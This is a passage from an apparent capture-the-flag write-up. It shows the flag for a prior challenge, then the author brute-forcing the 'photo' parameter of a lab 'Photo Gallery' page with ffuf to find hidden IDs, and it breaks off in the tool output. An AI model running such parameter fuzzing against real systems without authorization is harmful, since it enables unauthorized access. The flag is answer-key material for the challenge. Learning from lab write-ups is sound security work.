 Flag: `CyberYami{4dmin_4cce55_gr4nt3d}`


### Photo Gallery

URL: `http://3.7.252.130/PhotoGallery/` \
Points: `+50` \
Description: _We have lot of photos._

Here we have 8 photos that can be accessed in two ways.
`challenge.php?photo=1` or `photos/1.jpg`

![photo-gallery-1.png](files/photo-gallery-1.png#center)

The directory listing is enabled for `/photos/` and there are only 8 images. This `photo` GET parameter looks interesting. After trying a bunch of injections, parameter and method/verb tempering techniques, I couldn't find anything, so let's do brute force (again!) for this photos GET parameter ID value.

```bash
┌──PS(Aftab@Sama)-[~\Downloads]
└─$ seq 1 100 > id.txt

┌──PS(Aftab@Sama)-[~\Downloads]
└─$ ffuf -u 'http://3.7.252.130/PhotoGallery/challenge.php?photo=FUZZ' -w id.txt -fr 'Invalid photo number.'

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://3.7.252.130/PhotoGallery/challenge.php?photo=FUZZ
 :: Wordlist         : FUZZ: C:\Users\Jack\Downloads\id.txt
 :: Header           : User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/128.0.0.0 Safari/537.36
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 50
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Regexp: Invalid photo number.
________________________________________________

9                       [Status: 200, Size: 22, Words: 6, Lines: 1, Duration: 44ms]::
87                      [Status: 200, Size: 101, Words: 11, Lines: 1, Duration: 94ms]:
8                       [Status: 200, Size: 1032907, Words: 5314, Lines: 4480, Duration: 49ms]
2                       [Status: 200, Size: 1000983, Words: 2853, Lines: 3423, Duration: 28ms]
4                       [Status: 200, Size: 871578, Words: 3216, Lines: 3317, Duration: 49ms]
5                       [Status: 200, Size: 1292467, Words: 5772, Lines: 5229, Duration: 51ms]
```